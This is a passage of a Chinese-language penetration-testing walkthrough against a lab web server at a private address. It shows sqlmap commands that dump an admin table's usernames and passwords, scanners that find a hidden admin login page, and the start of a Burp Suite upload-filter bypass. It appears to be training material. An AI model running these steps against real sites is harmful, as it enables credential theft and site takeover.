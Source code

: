 现在开始跑admin下面的列：

```shell
python .\sqlmap.py -u "http://192.168.157.128:89/Pic.asp?classid=3" --columns -T admin
```

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/e8a8afac366e4ad688fe89090e3819fc.png" alt="img" style="zoom:80%;" />

现在开始获取username和password：

```shell
python .\sqlmap.py -u "http://192.168.157.128:89/Pic.asp?classid=3" --dump -C “username,password” -T admin
```

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/afa182321aa9475387b65d3e228eb516.png" alt="img" style="zoom:80%;" />

之后就可以通过md5解密得到密钥。

#### 寻找登陆界面

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/ee2dbf9bca5e49eda56be1bf0b19431d.png)

##### 方法一：使用漏洞探针

```shell
python iis_shortname_scan.py http://192.168.157.128:89/
```

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/9a39f95c918e46f9b5e6cb2b67676c45.png" alt="img" style="zoom:80%;" />

通过尝试访问：http://192.168.157.128:89/upfile.asp

得到：http://192.168.157.128:89/Tcnet/Admin_Login.asp

##### 方法二：通过7kb扫描获取访问路径

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/c8772a9cdc884834b0a4482020cfb28e.png" alt="img" style="zoom: 50%;" />

##### 方法三

使用爬虫在新闻系统网页中寻找：

发现在网页源代码771行。

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/0775ba7ed270400abd5fef487ee70b8b.png" alt="img" style="zoom:80%;" />

##### 获得网站权限

访问http://192.168.157.128:89/upload.asp，先测试可以上传的文件类型，发现会对文件进行检测。

此时使用使用bp进行抓包，修改代理配置。

先上传一个正常的图像，进行抓包：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/ef36ad03551c417793cd3373982452f9.png" alt="img" style="zoom: 50%;" />

将其放入repeater当中：
